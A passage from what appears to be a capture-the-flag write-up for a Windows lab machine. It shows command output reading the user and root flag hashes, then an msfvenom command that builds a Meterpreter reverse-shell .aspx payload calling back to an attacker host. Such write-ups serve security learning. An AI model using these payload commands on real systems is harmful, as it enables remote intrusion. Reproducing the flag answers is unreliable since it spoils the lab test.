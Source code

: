 ```
C:\Users\babis\Desktop>dir 
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of C:\Users\babis\Desktop

18/03/2017  02:14 ��    <DIR>          .
18/03/2017  02:14 ��    <DIR>          ..
18/03/2017  02:18 ��                32 user.txt.txt
               1 File(s)             32 bytes
               2 Dir(s)  22.199.873.536 bytes free

C:\Users\babis\Desktop>type user.txt.txt
type user.txt.txt
9ecdd6a3aedf24b41562fea70f4cb3e8
...
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of C:\Users\Administrator\Desktop

14/01/2021  12:42 ��    <DIR>          .
14/01/2021  12:42 ��    <DIR>          ..
18/03/2017  02:17 ��                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  22.199.873.536 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
e621a0b5041708797c4fc4728bc72b4b
```

## 9. Alternative Reverse Shell, with Meterpreter & MSFVenom
NOTE: THIS IS AN ALTERNATE METHOD AS SHOWN IN OFFICIAL WRITE-UP

Let's generate a custom `.aspx` reverse shell. [(Source)](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-a-reverse-shell-in-Metasploit)
```
msf5 > msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.x.x LPORT=9999 -f aspx > devel.aspx
[*] exec: msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.x.x LPORT=9999 -f aspx > devel.aspx

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2818 bytes
```
